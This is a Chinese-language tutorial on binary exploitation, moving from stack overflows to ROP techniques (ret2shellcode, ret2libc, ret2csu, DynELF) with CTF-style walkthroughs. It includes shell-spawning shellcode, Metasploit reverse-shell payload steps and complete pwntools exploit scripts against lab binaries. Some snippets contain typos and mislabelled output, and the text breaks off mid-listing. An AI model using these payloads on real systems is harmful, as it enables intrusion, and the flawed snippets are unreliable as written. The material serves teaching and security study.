# 从栈溢出到ROP

- ret2shellcode

- ret2text

- ret2libc

- ret2plt

- ret2reg

- ret2csu

- stack pivot

- got hijack

- one-gadget

- ret2dl-resolve & DynELF

- JOP/COP

- rop调用mmap/mprotect绕过NX执行shellcode

- rop+fuzz爆破绕过ASLR

- 利用内存信息泄露绕过ASLR

- 利用ret2plt构造信息泄露绕过ASLR

- 使用内存信息泄露和DynELF绕过ASLR

- CANARY绕过


## shellcode

- 什么是shellcode

在软件漏洞利用中经常用到的一小段代码，通常用于攻击者启动一个能控制受害机器的shell。例如利用execve系统调用来获得一个高权限的shell。参考资料 http://www.shell-storm.org/shellcode/

- 编写shellcode



- 测试shellcode



用内联(inline)汇编测试编写的shellcode，也可以使用汇编器as直接编译汇编代码

- 提取shellcode

objdump -d shellcode反汇编结果如下

)

上图方框部分就是编写的shellcode，提取这些指令的机器码如下：

SHELLCODE = "\x31\xc0\x50...5"

- 测试提取后的shellcode



上面这段代码中，shellcode存储在全局字符数组中，属于.data section，编译器默认其不可执行，必须加上选项-z execstack，即开启栈/堆/数据段可执行。

- metaspolit常见shellcode

```
payload/linux/x86/shell_reverse_tcp  # linux x86平台反连shellcode，受害者反连至攻击者主机端口，并开启shell
payload/linux/x64/shell_bind_tcp     # 受害者监听某端口，攻击者连接后即可获取shell，linux x64平台
payload/linux/x86/exec               # 启动指定程序，例如/bin/sh
payload/linux/x64/read_file          # 读取指定文件并输出至fd，linux x64平台
payload/windows/shell_reverse_tcp    # windows平台反连shellcode，受害者反连至攻击者主机端口，并开启shell
payload/windows/shell_bind_tcp       # 受害者监听某端口，攻击者连接后即可获取shell，windows平台
```

- metasploit生成shellcode

使用use命令选择一个shellcode模块，此处选择payload/linux/x86/shell_reverse_tcp，linux x86平台下的反连shellcode

generate命令可以生成shellcode

查看选项，可以通过CMD变量名指定命令，默认为/bin/sh，可以通过LHOST和LPORT指定反连IP地址和端口。



- 生成shellcode选项



-b 指定字符黑名单，通过编码的方式去除不能使用的字符

-e 指定编码器

-t 指定输出格式

-f 指定输出到文件，默认输出到stdout

- 生成包含shellcode的可执行文件ELF

直接生成包含shellcode的可执行文件ELF。本地监听4444端口，运行shellcode，即可在监听端口上获得一个可交互的shell



- 生成c语言形式的shellcode

generate -t c生成c语言形式的shellcode



- 生成python形式的shellcode

generate -t python生成python语言形式的shellcode



- shellcode编码去除坏字符

genetate -b "\x00\x0a"生成的shellcode中通过编码字符"\x00"和字符"\x0a"(换行符)去掉了，在注释中可以看到默认使用的编码器是x86/shikaka_ga_nai

编码器可以使用-e选项更换，例如指定-e alpha_mixed，可以生成混合字母和数字的shellcode



- pwntools生成shellcode

pwntools中的shellcraft模块内置了许多的shellcode模板。除了执行shell之外，还能满足许多其他的功能。

```
import pwn
print(pwn.shellcraft.amd64.linux.sh())
```

- pwntools编译shellcode

pwntools可以使用asm函数编译多种架构的shellcode。pwnloads内置的encoders模块也可以帮助编码去除shellcode中的坏字符。

```
import binascii
import pwn
shellcode = pwn.shellcraft.amd64.linux.sh()
print(binascii.b2a_hex(pwn.asm(shellcode, arch='amd64')))
```


## ret2shellcode

- 案例:

```
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
  char buf[128];
  if (argc < 2) return 1;
    strcpy(buf, argv[1]);
  printf("argv[1]: %s\n", buf);
  return 0;
}
```

程序接受命令行第一个参数，如果这个参数过长，strcpy时会溢出栈上缓冲区buf。

作为第一个利用案例，我们不开启战不可执行和canary的保护选项：`-z execstack -fno-stack-protector`

编译命令：`gcc -z execstack -fno-stack-protector boc.c -o bof -m32`

- 栈布局(Stack Layout):



- 栈溢出(Stack Overflow)



- 利用栈溢出

可以把shellcode房子缓冲区开头，然后通过覆盖返回地址跳转至shellcode



也可以吧shellcode放在返回地址之后，返回通过覆盖返回地址跳转至shellcode —— jmp esp，不需要硬编码地址


- 栈溢出漏洞利用步骤

  + 找到能够刚好覆盖返回地址的缓冲区长度

  + 填充shellcode并找到shellcode所在地址

  + 将返回地址覆盖为shellcode地址

- 寻找填充长度

为了精确覆盖返回地址，首先要找到从缓冲区开头到栈上的返回地址有多少距离。我们可以先找到缓冲区开头的地址，再找到返回地址所在位置，两者相减即可。为了找到缓冲区开头地址，我们可以在调用strcpy之前下断点，通过查看strcpy第一个参数即可。另外，可在main函数返回前断下，此时指向的即是返回地址所在的位置。(也可以通过pwntools的cyclic函数或msf的pattern.py脚本生成一串字符串来定位溢出长度)



在第一个断点处，找到缓冲区起始地址为0xffffd4a0

在第二个断点处，找到返回地址存储位置0xffffd52c

二者相减，即可知道溢出超过140字节时会覆盖返回地址



- 第一个栈溢出漏洞利用



输入140个A加4个B时，返回地址被改成了0x42424242

在程序崩溃时，查看当前esp-160的内存，即可观察到缓冲区开头为0xffffd4b0

在buffer开头放上shellcode并跳转过去即可

- 在gdb中获取shell

为了输入不可见字符，我们使用python，在buffer开头放上shellcode，然后将返回地址覆盖成buffer的起始地址0xffffd4b0。

因为采用了小端(little endian)格式，因此返回地址的字节序为"\xb0\xd4\xff\xff"

最终成功执行shellcode获取了shell。



- 在gdb外获取shell

刚才成功利用是在gdb中运行，如果不使用gdb，直接运行，你会发现shellcode无法执行。

实际上，在gdb中运行程序时，gdb会为进程正价许多环境变量，存储在栈上，导致栈用的更多，栈的地址变低了。直接运行时，栈地址会比gdb中高，所以刚才找的shellcode地址就不适用了。

将0xffffd4b0升高为0xffffd4ea，同时在shellcode前面增加长度为60的NOP链，只要命中任何一个NOP即可。




## return to libc

发生栈溢出时，不跳转到shellcode，而是跳转到libc中的函数，在返回地址处的栈上依次写入system、exit、"bin/sh"字符串地址、0，我们可控函数返回时会如何执行。



函数返回，栈上返回地址处已被改为system()函数地址



返回后跳转到system执行，esp指向exit



对于system()函数，栈上的"/bin/sh"正好为第一个参数



system返回时，栈上对应的返回地址为exit()函数，进而执行exit(0)



- 栈溢出的return to libc利用实践
  - 获得system()和exit()函数地址
  - 获得"/bin/sh"字符串地址
  - 构造溢出载荷 `system + exit + "/bin/sh" + 0`
  - 实验在关闭ASLR情况下进行，libc函数地址固定不变

- 获得system()与exit()函数地址

可以在gdb中直接用print命令查看system和exit函数地址



- 查找glibc中字符串"/bin/sh"的地址

   glibc中必定有字符串"/bin/sh"，可以使用gdb中find命令，在libc的内存范围内搜索。0xf7e05000是libc起始地址，0xf7fb8000是结尾。

  

- 获取地址的另一种方法
  - 首先用ldd命令获取libc基址
  - 然后用readelf命令找到system和exit函数在libc中的偏移
  - 用strings命令找到字符串/bin/sh在libc中的偏移
  - 最后通过与libc基址相加来获得最终地址。



把获得的system、exit、"/bin/sh"的地址填入溢出缓冲区，从前一课时计算到的偏移140之后开始填入。通过gdb运行发现shell并未启动，原因是："/bin/sh"的地址中包含换行符0a，argv[1]会被换行符截断。



这时候可以考虑更换命令字符串，使用"sh\0"，一般来说PATH环境变量中已经包含/bin目录，因此只需要找到一个"sh"字符串，将其地址作为system()函数的参数即可。我们在程序自身空间内就可以找到"sh"这个字符串，同样使用find命令，实际上，此处的sh是".gnu.hash"这个字符串中的一部分。



- 第一个使用return to libc的exploit

更换命令地址后，便可成功使用return to libc启动shell



> 要使用'/bin/sh'等字符串也可以不用在libc或其他地方搜索，可以自己构造，通过ROP调用read等函数写在.bss段首地址即可，这里是全局变量的地方，地址固定方便定位，可以用于存储字符串等数据。
>

## return to plt

如果动态共享库的地址随机化保护开启，则无法知道libc地址。

而程序中已经引用的动态库函数，可以直接通过plt调用，无需知道实际地址。

## return to reg

前面已经提到，使用jmp esp\call esp\call eax之类的指令地址覆盖来完成跳转，即ret2reg，可以避免硬编码shellcode地址，可用于绕过ASLR。

> ASLR开启时，只是栈、堆、动态库随机化，程序本身本身的加载地址依然固定。

## return to text

使用程序中已有的函数地址覆盖，可以实现调用程序中的函数


## ROP (Return Oriented Programming)

在前面利用return to libc，我们调用了system("/bin/sh")和exit(0)，system()和exit()函数本质上都是以ret指令结尾的代码片段，考虑如果是其他ret结尾的代码片段，例如几条指令组成的小代码片段，也是同样可行的。



- ROP (Return Oriented Programming)
  - 通过拼接以ret指令结尾的代码片段来实现某些功能的技术，成为ROP(Return Oriented Programming)
  - 以ret指令结尾的小段代码片段我们成为ROP gadget，例如：pop edx; ret
  - 为实现某一功能拼接而成的多个ROP gadget，我们成为ROP链(ROP Chain)
  - 在栈上(从返回地址开始)填充的用于执行ROP链的数据，我们成为ROP载荷(ROP Payload)
  - ROP技术是return to libc的扩展，return to libc是ROP的一种特殊情况，即ROP gadget恰好是libc函数的情形。

- ROP链的执行过程

这是由3个gadget组成的ROP链，栈溢出函数返回后依次执行。

第一个gadget会把栈上的值放入寄存器edx，栈上的值可控，因此edx可控。

第二个gadget将eax置为0

第三个gadget将eax写入edx指向的内存，eax为0，edx可控，此rop实现了任意地址写0的功能。










- 常规ROP链布局

x86 ROP链示意图：

假设先调用FUN1再调用FUN2，FUN1有三个参数，FUN2有两个参数

考虑x86调用约定中，函数用栈来传递参数

```
[ FUNC1_PTR ]
[  PPP_RET  ]        // pop; pop; pop; ret；对应三个参数故需要3个pop
[ FUNC1_ARG1]
[ FUNC1_ARG2]
[ FUNC1_ARG3]
[ FUNC2_PTR ]
[  PP_RET   ]        // pop; pop; ret；对应两个参数故需要2个pop
[ FUNC2_ARG1]
[ FUNC2_ARG2]
```

最简单的调用system("/bin/sh")的ROP链如下：
ROP_CHAIN = system_ptr + exit_ptr + cmd_addr

x64:

考虑x64调用约定中，前六个参数依次保存在RDI, RSI, RDX, RCX, R8和 R9中，如果还有更多的参数的话才会保存在栈上。

```
[ POP; RET ]         // pop rdi; ret
[   ARG1   ]
[ POP; RET ]         // pop rsi; ret
[   ARG2   ]
[   ....   ]
[ FUNC_PTR ]         // FUNC(rdi, rsi, ...)
```


- 连接多个libc函数调用

依次在栈上布置system、exit、binsh、0，即可连续调用system("/bin/sh")和exit(0)。

如何串联3次或更多的libc函数调用? 如果libc函数有2个以上参数，如何布置ROP payload。

例如要连接read(fd, buf, size)和write(fd, buf, size)两个函数调用，无法按照system("/bin/sh")和exit(0)那样布置ROP payload，参数会产生重叠。



使用pop ret这类的ROP Gadget可以解决这个问题，例如：

```
pop ebx; pop esi; pop edi; ret;
```

这种3个pop的gadget下文记为pop3 ret


我们用pop3 ret代表3个pop的gadget，例如：pop ebx; pop esi; pop edi; ret;
按照右图的布置，我们可以用ROP连续调用read和write函数。

pop3 ret可以在read/write函数返回时，清理栈上的参数，进而触发下一次调用
2个参数的libc函数可以使用pop 2 ret
1个参数的libc函数可以使用pop ret





> 通常在通过构造ROP进行漏洞利用时，可能不能在一次溢出利用中完成整个攻击，比如首次构造ROP利用漏洞泄露libc后，还要再次在程序退出前再次触发漏洞函数，这时候可以在ROP中将返回地址覆写成程序main函数地址或存在漏洞的函数vul_func()地址，这样就可以达到在程序一次执行过程中反复触发漏洞函数的目的，来完成整个攻击流程。


## ret2csu

**x64架构下的ROP**

- arm64（64位)cdecl调用约定
  - 使用寄存器rdi, rsi, rdx, rcx, r8, r9来传递前6个参数
  - 第七个及以上的参数通过栈来传递
- 参数在寄存器中，必须用gadget来设置参数
  - pop rdi; ret
  - pop rsi; pop r15; ret;
  - 用gadget设置rdx和rcx寄存器就比较困难一点，没有例如pop ret这种特别直接的gadget

- x64下通用Gadget: __libc_csu_init
  - 几乎所有的x64 ELF在__libc_csu_init函数中存在上面两个Gadget，第二个Gadget可以设置r13,r14,r15,再通过第一个Gadget将这三个值分别送入rdx,rsi,edi中，正好涵盖了x64 cdecl调用约定下的前三个参数。
  - 中间有几处关键的地方
  
    * 设置rbx为0(一般情况)
    * 设置rbp为1



**案例：ropemporium write4**
http://ropemporium.com/binary/write4.zip

- 构造info leak代码段(如write、puts、printf等)
- 计算lib_base
- 构造第二次栈溢出，完成getshell操作

**案例：ropemporium ret2csu**

https://ropemporium.com/binary/ret2csu.zip

```
# http://paste.ubuntu.com/p/BPZyHJ555f/
from pwn import *
context.log_level = 'debug'
io = process("./ret2csu")
pause()
io.recvuntil(">")
init_add = 0x0600E10
gadget_1 = 0x0400896 #add rsp, 8 ; pop rbx ; pop rbp ; r12 r13 r14 r15 ret
gadget_2 = 0x0400880 #mov rdx, r15 ; mov rsi, r14 ; mov edi, r13d ; call qword ptr [r12+rbx*8]
pay = "A"*0x20
pay += p64(0) # rbp
pay += p64(gadget_1)

pay += p64(0) # padding
pay += p64(0) # rbx
pay += p64(1) # rbp
pay += p64(init_add) # r12
pay += p64(0) #r13
pay += p64(0) # r14
pay += p64(0xdeadcafebabebeef) # r15
pay += p64(gadget_2) #ret

pay += p64(0) # padding
pay += p64(0) #rbx
pay += p64(0) #rbp
pay += p64(0) #r12
pay += p64(0) #r13
pay += p64(0) #r14
pay += p64(0) #r15

pay += p64(0x4007B1) #ret2win

io.sendline(pay)

io.interactive()
```


## OneGadget

**一个gadget执行/bin/sh**
通常执行system("/bin/sh")需要在调用system之前传递参数；
比较神奇的是，libc中包含一些gadget，直接跳转过去即可启动shell；
通常通过寻找字符串"/bin/sh"的引用来寻找(对着/bin/sh的地址在IDA Pro中按X)





 案例：onegadget

 可以通过onegadget工具进行查找




##  ret2dl_resolve & DynElf

问题：如果题目没有提供libc怎么办？

- 从libc base寻找我们需要的libc(http://libc.blukat.me/)

- 使用DynElf

     - 原理：如果可以实现任意内存读，可以模拟_dl_runtime_resolve函数的行为来解析符号

        这样的好处是无需知道libc。pwntools库中的DynELF模块已经实现了此功能。

  - 编写一个通用的任意内存泄露函数

  - 通过返回main()函数来允许内存泄露触发多次

    将泄露函数传入DynElf来解析system()函数的地址

  - 通过ROP来调用system('/bin/sh')

  - 当目标的libc库未知时，DynElf非常有用

- 利用：使用DynELF






## JOP/COP

和ROP类似，只是把使用的代码片段从ret结尾扩展到jmp/call结尾

-  JOP(Jump Oriented Programming)

```
 pop esi; jmp dword [esi-0x70]
```

- COP(Call Oriented Programming)

```
 mov eax, dword [esp+0x48]; call dword [eax+0x10];
```


## 如何防御ROP

- 位置无关代码(PIE)可防御攻击者直接ROP
  - 攻击者不知道代码地址
  - ROP与return to PLT技术无法直接使用
- PIE绕过方法
  - 结合信息泄露漏洞
  - x86_32架构下可爆破
    内存地址随机化粒度以页为单位：0x1000字节对齐


## 案例

### ret2shellcode

**示例代码**

```
 // gcc -fno-stack-protector -z execstack -o level1 level1.c
 #undef _FORTIFY_SOURCE
 #include <stdio.h>
 #include <stdlib.h>
 #include <unistd.h>

 void vulnerable_function() {
     char buf[128];
     read(STDIN_FILENO, buf, 256);
 }

 int main(int argc, char** argv) {
     vulnerable_function();
     write(STDOUT_FILENO, "Hello, World\n", 13);
 }
```

**分析调试**

接下来我们开始对目标程序进行分析。首先我们先来确定溢出点的位置，这里使用pattern.py脚本，使用如下命令来生成一串测试用的150个字节的字符串：

```
python pattern.py create 150 
Aa0Aa1Aa2(...skip...)e6Ae7Ae8Ae9
```

随后我们使用gdb ./level1调试程序。

```
(gdb) run
Starting program: /home/mzheng/CTF/groupstudy/test/level1
Aa0Aa1Aa2(...skip...)Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? ()
```

我们可以得到内存出错的地址为0x37654136。随后我们使用命令：

```
python pattern.py offset 0x37654136
hex pattern decoded as: 6Ae7
140
```

就可以非常容易的计算出PC返回值的覆盖点为140个字节。我们只要构造一个”A”*140+ret字符串，就可以让pc执行ret地址上的代码了。
接下来我们需要一段shellcode，可以用msf生成，或者自己反编译一下。

```
execve ("/bin/sh") 
xor ecx, ecx
mul ecx
push ecx
push 0x68732f2f ;; hs//
push 0x6e69622f ;; nib/
mov ebx, esp
mov al, 11
int 0x80

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"
```

这里我们使用一段最简单的执行execve ("/bin/sh")命令的语句作为shellcode。

溢出点有了，shellcode有了，下一步就是控制PC跳转到shellcode的地址上:

```
 [shellcode][“AAAAAAAAAAAAAA”….][ret]
 ^------------------------------------------------|
```

注意这里定位shellcode地址有个坑，gdb的调试环境会影响buf在内存中的位置，虽然我们关闭了ASLR，但这只能保证buf的地址在gdb的调试环境中不变，但当我们不通过gdb调试直接执行./level1的时候，buf的位置会固定在别的地址上。最简单解决的方法就是开启core dump这个功能。

```
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
```

开启之后，当出现内存错误的时候，系统会生成一个core dump文件在tmp目录下。然后我们再用gdb查看这个core文件就可以获取到buf真正的地址了。

```
$./level1
ABCDAAAAAAAA(...skip...)AAAAAAAAAAA
Segmentation fault (core dumped)

$ gdb level1 /tmp/core.1433844471 
Core was generated by `./level1'.
Program terminated with signal 11, Segmentation fault.
#0 0x41414141 in ?? ()

(gdb) x/10s $esp-144
0xbffff290: "ABCD", 'A' <repeats 153 times>, "\n\374\267`\204\004\b"
0xbffff335: ""
```

因为溢出点是140个字节，再加上4个字节的ret地址，我们可以计算出buffer的地址为$esp-144。通过gdb的命令 “x/10s $esp-144”，我们可以得到buf的地址为0xbffff290。

```
p = process('./level1') #本地测试
p = remote('127.0.0.1',10001) #远程攻击
```

**Exploit**

```
#!/usr/bin/env python
from pwn import *

#p = process('./level1')
p = remote('127.0.0.1',10001)
ret = 0xbffff1e0

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

payload = shellcode + 'A' * (140 - len(shellcode)) + p32(ret)
p.send(payload)
p.interactive()
```


### ret2text (x86)

**示例代码**

```
 // 编译：gcc -m32 -fno-stack-protector exploit1.c -o exploit1
 // 关闭地址空间随机化不考虑ASLR绕过
 #include <stdlib.h>
 #include <string.h>

 void foobar() {
  puts("I Should Never Be Called");
  exit(0);
 }

 void vulnerable(char *arg) {
  char buff[10];
  strcpy(buff, arg);
 }

 int main(int argc, char **argv) {
  vulnerable(argv[1]);
  return (0);
 }

```

**分析调试**

执行程序的时候函数 ShouldNotBeCalled 一直没有被调用。函数vulnerable只有一个操作就是将成员变量拷贝到只有10bytes大小的缓存buff中。此外我们还将禁用空间格局随机化Address Space Layout Randomization (ASLR)让利用场景变得更简单些。调试如下：

```
 $ ./exploit1 `python -c "print 'A'*22+'\x83\x84\x04\x08'"`
 I Should Never Be Called
```


### ret2text (x64)

**示例代码**

```
// 编译: gcc -fno-stack-protector level3.c -o level3
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void callsystem()
{
    system("/bin/sh");
}

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
}
```

**分析调试**

打开ASLR并编译目标程序。通过分析源码，我们可以看到想要获取这个程序的shell非常简单，只需要控制PC指针跳转到callsystem()这个函数的地址上即可。因为程序本身在内存中的地址不是随机的，所以不用担心函数地址发生改变。定位溢出点：

```
$ python pattern.py create 150 > payload
$ cat payload
Aa0Aa1Aa2Aa(...skip...)7Ae8Ae9
```

然后运行gdb ./level3后输入这串字符串造成程序崩溃。

```
(gdb) run < payload
Starting program: /home/mzheng/CTF/level3 < payload
Hello, World

Program received signal SIGSEGV, Segmentation fault.
0x00000000004005b3 in vulnerable_function ()
```

奇怪的事情发生了，PC指针并没有指向类似于0x41414141那样地址，而是停在了vulnerable_function()函数中。原因就是之前提到过的程序使用的内存地址不能大于0x00007fffffffffff，否则会抛出异常。但是，虽然PC不能跳转到那个地址，我们依然可以通过栈来计算出溢出点。因为ret相当于“pop rip”指令，所以我们只要看一下栈顶的数值就能知道PC跳转的地址了。

```
(gdb) x/gx $rsp       // 查看内存，gx代表数值用64位16进制显示
0x7fffffffe188: 0x3765413665413565

$ python pattern.py offset 0x3765413665413565
hex pattern decoded as: e5Ae6Ae7
136
```

可以看到溢出点为136字节。我们再构造一次payload，并且跳转到一个小于0x00007fffffffffff的地址，看看这次能否控制pc的指针。

```
python -c 'print "A"*136+"ABCDEF\x00\x00"' > payload

(gdb) run < payload
Starting program: /home/mzheng/CTF/level1 < payload
Hello, World

Program received signal SIGSEGV, Segmentation fault.
0x0000464544434241 in ?? ()
```

**Exploit**

```
#!/usr/bin/env python
from pwn import *
elf = ELF('level3')
p = process('./level3')
#p = remote('127.0.0.1',10001)
callsystem = 0x0000000000400584
payload = "A"*136 + p64(callsystem)
p.send(payload)
p.interactive()
```


### ret2reg

示例程序来自重庆邮电大学举办的cctf2015中pwn的第一题，见附件`cctf2015_pwn1.rar`

**分析调试**

经过IDA逆向分析可知是一个普通的缓冲区栈溢出漏洞

```
 int __cdecl main(int argc, const char **argv, const char **envp)
 {
   __int64 v3; // rdx@1
   char v5; // [sp+0h] [bp-1020h]@1
   char v6; // [sp+1000h] [bp-20h]@1
   int v7; // [sp+101Ch] [bp-4h]@1

   setbuf(stdin, 0LL, envp);
   setbuf(stdout, 0LL, v3);
   puts("Easyest stack overflow!");
   v7 = read(0LL, &v5, 4096LL);
   return memcpy(&v6, &v5, v7);
 }
```

 $ cat /proc/sys/kernel/randomize_va_space # 显示为2，本机开启了ALSR

这时候使用硬编码地址的话,就无法成功利用漏洞.在这种情况下就可以使用jmp rsp等跳转地址来覆盖返回地址简介跳入shellcode。当函数执行完,弹出了返回地址,rsp往往指向(返回地址+8),我们将shellcode放在此处就可以让程序执行,注意跳板不一定是rsp

经过测试如下payload可以触发，并定位到覆盖地址位置，注意是64位程序，所以返回地址是8个字节：

```
python -c "print 'A' * 40 + 'BBBBBBBB' + 'C' * 100" 
```

用gdb的peda插件checksec功能来检测目标程序的防护措施以及jmpcall命令搜索jmp rsp的地址：

```
 gdb-peda$ checksec
 CANARY : disabled
 FORTIFY : disabled
 NX : disabled
 PIE : disabled
 RELRO : Partial
 gdb-peda$ jmpcall rsp
 0x43687d : call rsp
 0x43688b : call rsp
 0x43e9d4 : call rsp
 0x441b85 : call rsp
 0x441d8a : call rsp
```

从checksec结果看程序本身没有任何防护措施，跳转地址就选第一个0x43687d : call rsp即可，jmp rsp也是可以的。

看下返回之后，rsp也刚好指向返回地址后面的内存，刚好可以放上shellcode

```
 RSP: 0x7fffffffdc80 ('C' <repeats 17 times>, "\n\377\377\377\177")
 RIP: 0x7fffffffdc80 ('C' <repeats 17 times>, "\n\377\377\377\177")
```

另外就是shellcode，可以使用msf来生成。

```
 msf> show payload   
 msf> use linux/x64/exec
 msf (linux/x64/exec)> set cmd /bin/sh
 msf (linux/x64/exec)> generate -t py -b "/x00"
```

**Exploit**

```
#!/usr/bin/env python
from zio import *
io = zio("./cctf2015_pwn1")
io.read_until("Easyest stack overflow!\n")

buf = ""
buf += "\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d\x05"
buf += "\xef\xff\xff\xff\x48\xbb\xab\xb5\xd9\xba\x45\x0a\xfd"
buf += "\x44\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += "\xc1\x8e\x81\x23\x0d\xb1\xd2\x26\xc2\xdb\xf6\xc9\x2d"
buf += "\x0a\xae\x0c\x22\x52\xb1\x97\x26\x0a\xfd\x0c\x22\x53"
buf += "\x8b\x52\x4d\x0a\xfd\x44\x84\xd7\xb0\xd4\x6a\x79\x95"
buf += "\x44\xfd\xe2\x91\x33\xa3\x05\xf8\x44"

payload = 'A' * 40 + '\x7d\x68\x43\x00\x00\x00\x00\x00' + buf
io.write(payload)
io.interact()
```


#### ret2libc

```
int main(int argc, char *argv[])
{
 char buf[32];
 setvbuf(stdin, 0, 2, 0);
 setvbuf(stdout, 0, 2, 0);
 setvbuf(stderr, 0, 2, 0);
 puts("Welcome to ret2libc demo!");
 printf("This is your gift: %p\n", &setvbuf);
 read(0, buf, 0x100);
 return 0;
}
```

很明显的栈溢出，并且给泄露了setvbuf，不用自己去leak libc了，可以用来计算出libc的地址：

```
libc_base = setvbuf_addr - setvbuf_offset
```

查看一些基本信息：

```
$ ldd ret2libc # 查看使用的libc.so路径
$ file ret2libc # 查看文件信息
peda-gdb > checksec # 查看保护
Arch: i386-32-little
RELRO: Full RELRO
Stack: No canary found
NX: NX enabled
PIE: PIE enabled
```

**Exploit**

```
from pwn import *

elf = ELF("./ret2libc")
libc = elf.libc

io = process("./ret2libc")
pause()
io.recvutil('This is your gift: ')
sendvbuf_addr = int(io.recvline().strip(), 16)

libc_base = setvbuf_addr - libc.sym['setvbuf']
system_addr = libc_base + libc.sym['system']
binsh_addr = libc_base + libc.search("/bin/sh\x00").next()

pause()
log.info("setvbuf_addr:0x%x" % setvbuf_addr)
log.info("libc_base:0x%x" % libc_base)
log.info("system_addr:0x%x" % system_addr)
log.info("binsh_addr:0x%x" & binsh_addr)

# pay = "A"*(0x6c-8) # 6C5 lea esp, [ebp-8]
# pay += p32(0x3ac5c+libc_base+4) # set exc
# pay += "CCCC" # set ebx
# pay += "DDDD" # set ebp

pay = "A"*0x68 + "B"*4
pay += p32(system_addr)
pay += "CCCC"
pay += p32(binsh_addr)

io.send(pay)
io.interactive()
```


#### ret2libc绕过DEP

**示例代码**

```
 #include <stdio.h>
 #include <stdlib.h>
 #include <unistd.h>

 void vulnerable_function() {
     char buf[128];
     read(STDIN_FILENO, buf, 256);
 }

 int main(int argc, char** argv) {
     vulnerable_function();
     write(STDOUT_FILENO, "Hello, World\n", 13);
 }
```

打开DEP，即不带`-z execstack`参数，但依然关闭stack protector和ASLR：

```
 echo 0 > /proc/sys/kernel/randomize_va_space
 gcc -fno-stack-protector -o level2 level2.c
```

由于开启了DEP，不能使用硬编码栈上shellcode地址覆盖返回地址的方法。如果你通过`sudo cat /proc/[pid]/maps`查看，你会发现关闭DEP的情况下stack是rwx的，开启DEP时的stack却是rw的。

```
关闭DEP：bffdf000-c0000000 rw-p 00000000 00:00 0 [stack]
开启DEP：bffdf000-c0000000 rwxp 00000000 00:00 0 [stack]
```

libc.so里保存了大量可利用的函数，让程序执行system("/bin/sh")的话，也可以获取到shell。接下来就是如何得到system()这个函数的地址以及"/bin/sh"这个字符串的地址。

如果关掉了ASLR的话，system()函数在内存中的地址是不会变化的，并且libc.so中也包含"/bin/sh"这个字符串，并且这个字符串的地址也是固定的。那么接下来我们就来找一下这个函数的地址。这时候我们可以使用gdb进行调试。然后通过print和find命令来查找system和"/bin/sh"字符串的地址。

```
 $ gdb ./level2
 GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
 ...
 (gdb) break main
 Breakpoint 1 at 0x8048430
 (gdb) run
 Starting program: /home/mzheng/level2

 Breakpoint 1, 0x08048430 in main ()
 (gdb) print system
 $1 = {<text variable, no debug info>} 0xb7e5f460 <system>
 (gdb) print __libc_start_main
 $2 = {<text variable, no debug info>} 0xb7e393f0 <__libc_start_main>
 (gdb) find 0xb7e393f0, +2200000, "/bin/sh"
 0xb7f81ff8
 warning: Unable to access target memory at 0xb7fc8500, halting search.
 1 pattern found.
 (gdb) x/s 0xb7f81ff8
 0xb7f81ff8: "/bin/sh"
```

首先在main函数上下一个断点，然后执行程序，这样程序会加载libc.so到内存中，然后就可以通过"print system"这个命令来获取system函数在内存中的位置，随后可以通过" print __libc_start_main"这个命令来获取libc.so在内存中的起始位置，接下来通过find命令来查找"/bin/sh"这个字符串。这样就得到了system的地址0xb7e5f460以及"/bin/sh"的地址0xb7f81ff8。

**Exploit**

```
 #!/usr/bin/env python
 from pwn import *
 p = process('./level2')
 #p = remote('127.0.0.1',10002)
 ret = 0xdeadbeef
 systemaddr=0xb7e5f460
 binshaddr=0xb7f81ff8
 payload = 'A'*140 + p32(systemaddr) + p32(ret) + p32(binshaddr)
 p.send(payload)
 p.interactive()
```

要注意的是system()后面跟的是执行完system函数后要返回地址，接下来才是"/bin/sh"字符串的地址。因为我们执行完后也不打算干别的什么事，所以我们就随便写了一个0xdeadbeef作为返回地址。


#### ret2libc绕过DEP和ASLR

一个简单栈溢出程序

```
 #include <stdio.h>
 #include <stdlib.h>
 #include <unistd.h>

 void vulnerable_function() {
     char buf[128];
     read(STDIN_FILENO, buf, 256);
 }

 int main(int argc, char** argv) {
     vulnerable_function();
     write(STDOUT_FILENO, "Hello, World\n", 13);
 }
```


编译开启DEP并关闭Stack Protector，开启ASLR：

```
gcc -fno-stack-protector -o level2 level2.c
echo 2 > /proc/sys/kernel/randomize_va_space
```

如果你通过`sudo cat /proc/[pid]/maps`或者`ldd`查看，你会发现level2的libc.so地址每次都是变化的。

```
 cat /proc/[第1次执行的level2的pid]/maps
 b759c000-b7740000 r-xp 00000000 08:01 525196 /lib/i386-linux-gnu/libc-2.15.so
 b7740000-b7741000 ---p 001a4000 08:01 525196 /lib/i386-linux-gnu/libc-2.15.so
 b7741000-b7743000 r--p 001a4000 08:01 525196 /lib/i386-linux-gnu/libc-2.15.so
 b7743000-b7744000 rw-p 001a6000 08:01 525196 /lib/i386-linux-gnu/libc-2.15.so

 cat /proc/[第2次执行的level2的pid]/maps
 b7546000-b76ea000 r-xp 00000000 08:01 525196 /lib/i386-linux-gnu/libc-2.15.so
 b76ea000-b76eb000 ---p 001a4000 08:01 525196 /lib/i386-linux-gnu/libc-2.15.so
 b76eb000-b76ed000 r--p 001a4000 08:01 525196 /lib/i386-linux-gnu/libc-2.15.so
 b76ed000-b76ee000 rw-p 001a6000 08:01 525196 /lib/i386-linux-gnu/libc-2.15.so

 cat /proc/[第3次执行的level2的pid]/maps
 b7560000-b7704000 r-xp 00000000 08:01 525196 /lib/i386-linux-gnu/libc-2.15.so
 b7704000-b7705000 ---p 001a4000 08:01 525196 /lib/i386-linux-gnu/libc-2.15.so
